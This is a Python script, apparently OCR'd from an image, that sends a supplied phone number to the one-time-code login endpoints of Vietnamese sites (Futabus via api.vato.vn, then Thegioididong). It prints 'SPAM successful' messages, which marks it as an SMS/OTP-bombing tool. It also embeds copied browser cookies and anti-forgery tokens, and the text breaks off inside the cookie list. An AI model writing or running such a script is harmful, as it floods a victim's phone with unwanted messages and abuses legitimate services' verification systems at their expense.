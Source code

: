 def futabus(sdt):
    headers = {
        'authority': 'api.vato.vn',
        'accept': 'application/json',
        'accept-language': 'vi-VN,vi;q=0.9,fr-FR;q=0.8,fr;q=0.7,en-US;q=0.6,en;q=0.5,ja;q=0.4',
        'content-type': 'application/json',
        'origin': 'https://futabus.vn',
        'referer': 'https://futabus.vn/',
        'sec-ch-ua': '"Not_A Brand";v="99", "Google Chrome";v="109", "Chromium";v="109"',
        'sec-ch-ua-mobile': '?0',
        'sec-ch-ua-platform': '"Windows"',
        'sec-fetch-dest': 'empty',
        'sec-fetch-mode': 'cors',
        'sec-fetch-site': 'cross-site',
        'user-agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36',
        'x-app-id': 'client',
    }

    json_data = {
        'phoneNumber': sdt,
        'deviceId': '73b9cbca-6c66-448e-bc60-b2946513dae3',
        'use_for': 'LOGIN',
    }

    response = requests.post('https://api.vato.vn/api/authenticate/request_code', headers=headers, json=json_data).json()
    if response ['message'] == 'OK':
        print(f'[BY: ManhDNg] ~ \033[1;35m FUTABUS SPAM THÀNH CÔNG')
    else:
        print(f'[BY: ManhDNg] ~ \033[1;35m FUTABUS SPAM THẤT BẠI')

def thegioididong(sdt):
    cookies = {
        '_pk_id.7.8f7e': '9c724764956bef42.1702359947.',
        '_tt_enable_cookie': '1',
        '_ttp': 'KQA3JgCFOt6YHFu4dkvxwHtQliw',
        '_gcl_au': '1.1.1518817158.1722078722',
        'DMX_Personal': '%7B%22UID%22%3A%2264427b53a9f018fb5a07208341e683075e50e904%22%2C%22ProvinceId%22%3A3%2C%22Address%22%3Anull%2C%22Culture%22%3A%22vi-3%22%2C%22Lat%22%3A0.0%2C%22Lng%22%3A0.0%2C%22DistrictId%22%3A0%2C%22WardId%22%3A0%2C%22StoreId%22%3A0%2C%22CouponCode%22%3Anull%2C%22CRMCustomerId%22%3Anull%2C%22CustomerSex%22%3A-1%2C%22CustomerName%22%3Anull%2C%22CustomerPhone%22%3Anull%2C%22CustomerEmail%22%3Anull%2C%22CustomerIdentity%22%3Anull%2C%22CustomerBirthday%22%3Anull%2C%22CustomerAddress%22%3Anull%2C%22IsDefault%22%3Afalse%2C%22IsFirst%22%3Afalse%7D',
        'mwgngxpv': '3',
        '_gid': 'GA1.2.886869943.1722078729',
        '_fbp': 'fb.1.1722078735335.7879853641260818',
        '_ce.clock_event': '1',
        '_ce.clock_data': '17%2C171.225.192.16%2C1%2Cb9cbd8dc13f19f9e7eb854f472bfa274%2CChrome%2CVN',
        '__zi': '3000.SSZzejyD3DOkZU2bqmuCtIY7xk_V3mRHPyhpeT4NHOrrmEopamLJc36VghUMIXcUCfMbjDf35vXybwAstKCVd3Kt.1',
        'TBMCookie_3209819802479625248': '424499001722172923rziLe3nNfP7bjIjbJeIpQ4lEXR8=',
        '___utmvm': '###########',
        '.AspNetCore.Antiforgery.Pr58635MgNE': 'CfDJ8AFHr2lS7PNCsmzvEMPceBOgOSeFLhnXEk9Fw8nTeieWrfAVAJIvGbQS9qi_fdPCnUDqNZAGTnqxFkB2BRYv-lnY_z1DfNm22izmf88UogciW0whFg0F8DEbUBJoYXWXgc0_E7xLPETnQlalNqn6Pc4',
        'SvID': 'beline2687|ZqZGB|ZqZF/',
        '_gat': '1',
        '_pk_ref.7.8f7e': '%5B%22%22%2C%22%22%2C1722129686%2C%22https%3A%2F%2Fwww.google.com%2F%22%5D',
        '_pk_ses.7.8f7e': '1',
        '_ga': 'GA1.1.313192879.1702359943',
        '_ga_TZK5WPYMMS': 'GS1.2.1722129689.4.0.1722129689.60.0.0',
        '_ce.irv': 'returning',
        'cebs': '1',
        'cebsp_': '1',
        '_ga_TLRZMSX5ME': 'GS1.1.1722129686.4.0.1722129698.48.0.0',
